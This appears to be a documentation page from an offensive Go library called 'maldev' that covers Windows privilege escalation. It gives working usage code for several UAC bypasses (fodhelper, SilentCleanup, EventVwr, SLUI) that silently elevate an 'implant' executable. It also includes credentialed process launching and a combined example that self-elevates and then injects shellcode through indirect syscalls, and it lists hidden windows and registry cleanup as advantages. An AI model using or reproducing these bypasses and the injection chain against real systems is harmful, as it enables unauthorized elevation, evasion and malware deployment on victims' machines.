


---
---

# Privilege Escalation

[<- Back to Tokens Overview](README.md)

**MITRE ATT&CK:** [T1548.002 - Abuse Elevation Control Mechanism: Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002/)
**D3FEND:** [D3-UAP - User Account Profiling](https://d3fend.mitre.org/technique/d3f:UserAccountProfiling/)

---

## TL;DR

You're an admin account but your process runs at Medium IL
(default user-mode posture; UAC didn't elevate you). To run as
High IL without showing a UAC prompt, hijack one of Windows's
**auto-elevating** binaries (fodhelper, sdclt, eventvwr, etc.).

| You want to… | Use | Cost |
|---|---|---|
| Bypass UAC via fodhelper registry hijack | [`FodhelperBypass`](#fodhelperbypass) | One registry write (HKCU) — fodhelper auto-elevates and reads back the value |
| Discover other auto-elevate hijack candidates programmatically | [`recon/dllhijack.ScanAutoElevate`](../recon/dll-hijack.md) | Cross-references autoElevate manifest + writable search paths |

What this DOES achieve:

- High IL (admin's full token) without UAC consent dialog —
  the auto-elevating binary runs your payload as part of its
  normal flow.
- HKCU write only — no admin needed BEFORE the bypass; you
  use HKCU to redirect HKCR lookups that fodhelper makes.
- Reverses cleanly — delete the registry key after the bypass
  fires.

What this does NOT achieve:

- **Doesn't work on Always-Notify UAC** — when UAC slider is
  at the top, even auto-elevate binaries prompt. Default
  setting is one notch lower; bypass works there.
- **Detected by mature EDR** — Microsoft Defender catches
  fodhelper UAC bypass since 2019; CrowdStrike / SentinelOne
  same. Use as a stepping stone in lab work, not as primary
  privesc on hardened hosts.
- **Already-admin token required** — bypasses elevate
  Medium-IL admin to High-IL admin. They do NOT escalate
  standard user → admin. For that, see kernel exploits
  (e.g., [`privesc/cve202430088`](../privesc/cve202430088.md)).
- **Microsoft patches these** — every documented bypass has a
  finite shelf life. fodhelper, sdclt, eventvwr have all
  been patched at least once each. Check current Windows
  build before relying.

---

## Primer

Even if you have an administrator account on Windows, your processes run with limited privileges by default. User Account Control (UAC) prevents automatic elevation -- you need to explicitly "Run as administrator" for each program.

**Convincing the system you are the boss so you can access everything.** Privilege escalation bypasses UAC by exploiting auto-elevating Windows programs (like `fodhelper.exe`) that run as high-integrity without prompting. You hijack their behavior to execute your code with elevated privileges.

---

## How It Works

### Escalation Methods



### UAC Bypass Mechanism (FODHelper Example)



---

## Usage

### ExecAs: Run a Process as Another User

```go
import (
    "context"
    "github.com/oioio-space/maldev/win/privilege"
)

// Run cmd.exe as another user (returns exec.Cmd for lifetime management)
cmd, err := privilege.ExecAs(
    context.Background(),
    false,           // not domain-joined
    ".",             // local machine
    "admin",         // username
    "Password123!",  // password
    "cmd.exe",       // program
    "/C", "whoami",  // arguments
)
if err != nil {
    log.Fatal(err)
}

// IMPORTANT: Wait to avoid leaking the child process handle
cmd.Wait()
```

### CreateProcessWithLogon

```go
import "github.com/oioio-space/maldev/win/privilege"

err := privilege.CreateProcessWithLogon(
    "CORP",          // domain
    "admin",         // username
    "Password123!",  // password
    `C:\`,           // working directory
    "cmd.exe",       // program
    "/C", "whoami",  // arguments
)
```

### ShellExecuteRunAs (UAC Prompt)

```go
import "github.com/oioio-space/maldev/win/privilege"

// Prompts a UAC dialog for elevation
err := privilege.ShellExecuteRunAs(
    `C:\Windows\System32\cmd.exe`,
    `C:\`,
    "/C", "whoami /priv",
)
```

### UAC Bypass: FODHelper

```go
import "github.com/oioio-space/maldev/privesc/uac"

// Silently elevate via fodhelper.exe (Win10+, no UAC prompt)
err := uac.FODHelper(`C:\implant.exe`)
```

### UAC Bypass: SilentCleanup

```go
// Silently elevate via SilentCleanup scheduled task
err := uac.SilentCleanup(`C:\implant.exe`)
```

### UAC Bypass: EventVwr

```go
// Silently elevate via eventvwr.exe mscfile handler
err := uac.EventVwr(`C:\implant.exe`)
```

### UAC Bypass: EventVwr with Alternate Credentials

```go
// Elevate via eventvwr.exe using another user's credentials
err := uac.EventVwrLogon("CORP", "admin", "Password123!", `C:\implant.exe`)
```

### Check Current Privileges

```go
import "github.com/oioio-space/maldev/win/privilege"

admin, elevated, err := privilege.IsAdmin()
fmt.Printf("Admin group: %v, Elevated: %v\n", admin, elevated)

isMember, _ := privilege.IsAdminGroupMember()
fmt.Printf("Admin group member: %v\n", isMember)
```

---

## Combined Example: Escalate + Inject

```go
package main

import (
    "fmt"
    "log"
    "os"

    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/privesc/uac"
    "github.com/oioio-space/maldev/win/privilege"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Check if already elevated
    _, elevated, _ := privilege.IsAdmin()
    if !elevated {
        // Self-elevate via FODHelper UAC bypass
        exePath, _ := os.Executable()
        if err := uac.FODHelper(exePath); err != nil {
            fmt.Println("UAC bypass failed, trying SLUI...")
            _ = uac.SLUI(exePath)
        }
        return // original process exits, elevated copy continues
    }

    // Now running elevated -- perform injection via indirect syscalls.
    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config:        inject.Config{Method: inject.MethodCreateThread},
        SyscallMethod: wsyscall.MethodIndirect,
    })
    if err != nil { log.Fatal(err) }

    shellcode := []byte{/* ... */}
    if err := inj.Inject(shellcode); err != nil { log.Fatal(err) }
}
```

---

## Advantages & Limitations

### Advantages

- **Four UAC bypass methods**: FODHelper, SLUI, SilentCleanup, EventVwr cover Win10/Win11
- **Registry cleanup**: All UAC bypass methods defer-delete their registry keys
- **Hidden windows**: All spawned processes use `SysProcAttr{HideWindow: true}`
- **ExecAs returns exec.Cmd**: Caller manages child process lifetime
- **Domain + local support**: `ExecAs` adapts logon type for domain vs. local accounts

### Limitations

- **UAC bypasses are well-known**: EDR products monitor registry keys used by these techniques
- **Admin group required**: UAC bypass only works for users already in the Administrators group
- **Credential exposure**: `ExecAs` and `CreateProcessWithLogon` require plaintext passwords
- **EventVwr timing**: 2-second sleep for eventvwr to read registry -- may fail under heavy load
- **No PPID spoofing**: Spawned processes show the real parent PID

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/win/privilege`](https://pkg.go.dev/github.com/oioio-space/maldev/win/privilege) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Tokens area README](README.md)
- [`tokens/token-theft.md`](token-theft.md) — capture an admin token first, then enable privileges on the duplicated handle
- [`privesc` techniques (index)](../privesc/README.md) — full UAC bypass + kernel exploit alternatives
